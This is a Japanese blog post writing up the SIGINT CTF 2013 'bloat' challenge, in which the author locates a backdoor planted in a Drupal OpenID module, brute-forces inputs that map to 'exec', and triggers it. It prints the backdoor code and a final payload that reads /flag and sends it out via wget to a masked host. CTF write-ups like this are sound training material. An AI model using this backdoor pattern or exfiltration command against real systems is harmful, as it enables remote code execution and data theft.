 ```yaml
---
title: SIGINT CTF 2013 writeup – bloat (cloud 200)
author: tyage
type: post
date: 2013-07-16T20:23:45+00:00
url: /archive/p689.html
wp-syntax-cache-content:
  - |
    a:4:{i:1;s:590:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
    </pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #990000;">define</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'OPENID_DH_DEFAULT_GEN'</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'86'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">define('OPENID_DH_DEFAULT_GEN', '86');</p></div>
    ";i:2;s:2414:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>211
    212
    213
    214
    215
    216
    217
    218
    219
    220
    </pre></td><td class="code"><pre class="php" style="font-family:monospace;">      <span style="color: #000088;">$discovery</span> <span style="color: #339933;">=</span> openid_discovery<span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
          <span style="color: #b1b100;">if</span><span style="color: #009900;">&#40;</span><span style="color: #990000;">strpos</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'@'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span>
      <span style="color: #009900;">&#123;</span>
       <span style="color: #990000;">list</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span><span style="color: #339933;">,</span> <span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">=</span> <span style="color: #990000;">explode</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'@'</span><span style="color: #339933;">,</span> <span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #cc66cc;">2</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #009900;">&#125;</span>
    <span style="color: #b1b100;">else</span>
        <span style="color: #009900;">&#123;</span>
         <span style="color: #000088;">$user</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
         <span style="color: #000088;">$host</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
         <span style="color: #009900;">&#125;</span></pre></td></tr></table><p class="theCode" style="display:none;">      $discovery = openid_discovery($imaginably);
          if(strpos($imaginably, '@'))
      {
       list($user, $host) = explode('@', $imaginably, 2);
    }
    else
        {
         $user = false;
         $host = false;
         }</p></div>
    ";i:3;s:1329:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>247
    248
    </pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span> <span style="color: #339933;">*</span> OPENID_DH_DEFAULT_GEN<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
        <span style="color: #000088;">$service</span><span style="color: #009900;">&#91;</span><span style="color: #0000ff;">'uri'</span><span style="color: #009900;">&#93;</span> <span style="color: #339933;">=</span> drupal_map_assoc<span style="color: #009900;">&#40;</span><span style="color: #990000;">array</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">$user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
        $service['uri'] = drupal_map_assoc(array($host), $user_enc);</p></div>
    ";i:4;s:2110:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #b1b100;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #339933;">=</span><span style="color: #cc66cc;">0</span><span style="color: #339933;">;</span><span style="color: #000088;">$i</span><span style="color: #339933;">&lt;</span><span style="color: #cc66cc;">100000</span><span style="color: #339933;">;++</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
      <span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span> <span style="color: #339933;">*</span> <span style="color: #cc66cc;">86</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
      <span style="color: #b1b100;">if</span> <span style="color: #009900;">&#40;</span><span style="color: #990000;">is_callable</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
        <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
        <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
      <span style="color: #009900;">&#125;</span>
    <span style="color: #009900;">&#125;</span></pre></td></tr></table><p class="theCode" style="display:none;">for ($i=0;$i&lt;100000;++$i) {
      $user_enc = _openid_dh_long_to_base64($i * 86);
      if (is_callable($user_enc)) {
        var_dump($user_enc);
        var_dump($i);
      }
    }</p></div>
    ";}
categories:
  - CTF

---
```

<h3>CTF</h3>
<p>えと、ブログを更新停止している間に、Epsilon DeltaとしていくつかCTFに参加していました。</p>
<ul>
<li>Codegate YUT Preliminary 2013</li>
<li>Nuit du Hack CTF Quals 2013</li>
<li>BaltCTF Quals 2013</li>
<li>SECUINSIDE CTF Quals 2013</li>
<li>Boston Key Party CTF 2013</li>
<li>DEF CON CTF Qualifier 2013</li>
<li>SIGINT CTF 2013</li>
</ul>
<p>はじめは海外のCTFの感覚がつかめず、ちゃんと解いたような記憶もなかったのですが、BKPあたりからは少し慣れてきたような気がします。</p>
<p>今まで解いてた問題のwrite upを書こうとも思ったのですが、すっかり忘れてしまっているため、一番最近やったSIGINT CTFのwrite upを書くことにします。</p>
<p><!--more--></p>
<hr />
<h3>bloat</h3>
<p><a href="https://ctf.sigint.ccc.de/challenges/24/">SIGINT CTF 2013 – bloat (cloud 200)</a></p>
<p>この問題は、PHPで作られたWebアプリケーションにバックドアが仕掛けられているので、それを発見しろという問題です。</p>
<p>ソースコードが配られているのでそれを見てバックドアを探します。</p>
<p>配布されたソースコードはDrupalを使用したものでした。</p>
<p>ということなので、早速diffをとってみるのですが、様々な場所の変数名が変更されており、またインデントや改行もめっちゃくちゃにされていたため、diffをとると何万行ものダミー変更部に悩まされることになり、バックドアの発見は難しくなっていました。</p>
<p>そこで、PHPの構文を解析して圧縮してくれる<a href="https://code.google.com/p/php-compressor/">php-compressor</a>を使用し、ファイルを圧縮した上でdiffをとってみました。<br />
（実際には今回の問題用に圧縮後の変数名の命名方法を変更するなどしています。）</p>
<p>すると、何千行か関係のないdiffもあったのですが、openID関連のファイルにバックドアらしき変更がされているのが見つかりました。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
</pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #990000;">define</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'OPENID_DH_DEFAULT_GEN'</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'86'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>


<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>211
212
213
214
215
216
217
218
219
220
</pre></td><td class="code"><pre class="php" style="font-family:monospace;">      <span style="color: #000088;">$discovery</span> <span style="color: #339933;">=</span> openid_discovery<span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
      <span style="color: #b1b100;">if</span><span style="color: #009900;">&#40;</span><span style="color: #990000;">strpos</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">'@'</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span>
  <span style="color: #009900;">&#123;</span>
   <span style="color: #990000;">list</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span><span style="color: #339933;">,</span> <span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">=</span> <span style="color: #990000;">explode</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">'@'</span><span style="color: #339933;">,</span> <span style="color: #000088;">$imaginably</span><span style="color: #339933;">,</span> <span style="color: #cc66cc;">2</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span>
<span style="color: #b1b100;">else</span>
    <span style="color: #009900;">&#123;</span>
     <span style="color: #000088;">$user</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
     <span style="color: #000088;">$host</span> <span style="color: #339933;">=</span> <span style="color: #009900; font-weight: bold;">false</span><span style="color: #339933;">;</span>
     <span style="color: #009900;">&#125;</span></pre></td></tr></table></div>


<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>247
248
</pre></td><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$user</span> <span style="color: #339933;">*</span> OPENID_DH_DEFAULT_GEN<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #000088;">$service</span><span style="color: #009900;">&#91;</span><span style="color: #0000ff;">'uri'</span><span style="color: #009900;">&#93;</span> <span style="color: #339933;">=</span> drupal_map_assoc<span style="color: #009900;">&#40;</span><span style="color: #990000;">array</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$host</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>

<p>drupal_map_assocをみてみると、array_mapを使用しているため、$user_encが関数名となればその関数を実行できるようだとわかりました。</p>
<p>そこで、実行できる関数を探すため、以下のscriptを走らせたところ、execとfile関数が実行可能であると判明しました。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="php" style="font-family:monospace;"><span style="color: #b1b100;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #339933;">=</span><span style="color: #cc66cc;">0</span><span style="color: #339933;">;</span><span style="color: #000088;">$i</span><span style="color: #339933;">&lt;</span><span style="color: #cc66cc;">100000</span><span style="color: #339933;">;++</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
  <span style="color: #000088;">$user_enc</span> <span style="color: #339933;">=</span> _openid_dh_long_to_base64<span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span> <span style="color: #339933;">*</span> <span style="color: #cc66cc;">86</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
  <span style="color: #b1b100;">if</span> <span style="color: #009900;">&#40;</span><span style="color: #990000;">is_callable</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$user_enc</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #990000;">var_dump</span><span style="color: #009900;">&#40;</span><span style="color: #000088;">$i</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
  <span style="color: #009900;">&#125;</span>
<span style="color: #009900;">&#125;</span></pre></td></tr></table></div>

<p> => 結果：</p>
<pre>
string(4) "exec"
int(93802)
string(4) "file"
int(96141)
</pre>
<p>ここまでくれば、あとはexec関数を実行するだけです。</p>
<p>しかし、関数の実行結果はレスポンスで帰ってこないため、wgetを使用して、結果を見れるようにしました。</p>
<p>色々したところ、/flagにflagがあることが判明したので、以下の文字列をopenIDに入力して送信し、flagを獲得しました。</p>
<pre>
93802@cat /flag | awk '{print "http://xxxxx/xxx?key=" $0;}' | xargs wget
</pre>
<h3>オチ</h3>
<p>最終的に解けたのはいいのですが、実はコンテストの開催期間を勘違いしており、問題をちゃんと解き始めた時点でコンテストが終わっていたのでした・・・</p>
<p>結局、ポイント的に今回はチームに貢献することができませんでしたorz</p>
<p>この問題のポイントを獲得したのは1チームだけだったようです。<br />
参考にそのチームの方のwrite upを載せておきます。</p>
<p><a href="https://cesena.ing2.unibo.it/2013/07/07/sigint-2013-cloud200-bloat/">SIGINT 2013 – [cloud200] bloat</a></p>
<p>個人的には最後にncコマンドを使用したところは非常に参考になりました。<br />
なんで思いつかなかったんだろう。。。</p>
